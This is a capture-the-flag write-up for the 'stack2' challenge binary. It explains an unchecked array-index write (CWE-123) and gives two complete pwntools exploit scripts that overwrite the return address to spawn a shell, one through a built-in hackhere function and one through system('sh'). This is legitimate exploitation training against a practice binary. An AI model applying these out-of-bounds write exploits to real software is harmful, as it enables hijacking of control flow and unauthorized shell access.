





# Write-what-where stack2

Link : [stack2](https://adworld.xctf.org.cn/challenges/list)

Binary : [stack2](https://raw.githubusercontent.com/w31rdr4v3n/Binary-Exploitation/main/Write-what-where/data/3fb1a42837be485aae7d85d11fbc457b)


Here are the binary protections:


There is a hackhere function in the binary, this function allows you to execute a /bin/bash shell.



Let's go to the main function

The program takes numbers as input.

It can display numbers, add other numbers, change previously added numbers, calculate the average of numbers and exit.



The vulnerability lies at the level of number change, there is no control.


If you enter any number to change, it will change that number in memory: which is dangerous.

If you enter -100, it will change in memory the value located at offset -100 in our table.

This is actually a `Write-what-where` vulnerability.

```js
CWE-123: Write-what-where Condition

Any condition where the attacker has the ability to write an arbitrary value to an arbitrary location, often as the result of a buffer overflow. 

https://cwe.mitre.org/data/definitions/123.html
```

Here as we can write anywhere, then we can overwrite the EIP directly without worrying about the Canary.

There, we need two things:

1 - The address of the hackhere function.

2 - The ESP offset from the buffer.

Here is the address of the hackhere function in gdb:


To obtain the ESP offset from the buffer, we can subtract the RSP address from the buffer address.

For the buffer, this is the address of the local_78 array.

Let's put a breakpoint at the LEA instruction to get its address.




We therefore have the address of the buffer, this remains the address of the ESP.


```py
offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c
```

we can therefore overwrite the EIP by the address of the hackhere function.

Exploit 1:

```py
from pwn import *

sh = process("./3fb1a42837be485aae7d85d11fbc457b")

sh.sendlineafter(b"you have:",b"1")
sh.sendlineafter(b"me your numbers",b"1")

offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c

for address in [0x9b, 0x85, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1
	

sh.sendlineafter(b"5. exit",b"5")
sh.interactive()
```



Exploit 2:

Instead of directly executing the hackhere function, we can execute the system function and pass it the string `sh` as an argument.

The system address.



The address of the string `sh`


```py
from pwn import *

sh = process("./3fb1a42837be485aae7d85d11fbc457b")

sh.sendlineafter(b"you have:",b"1")
sh.sendlineafter(b"me your numbers",b"1")

offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c

for address in [0x50, 0x84, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1
	
offset +=4
for address in [0x87, 0x89, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1 
	
sh.sendlineafter(b"5. exit",b"5")
sh.interactive()
```

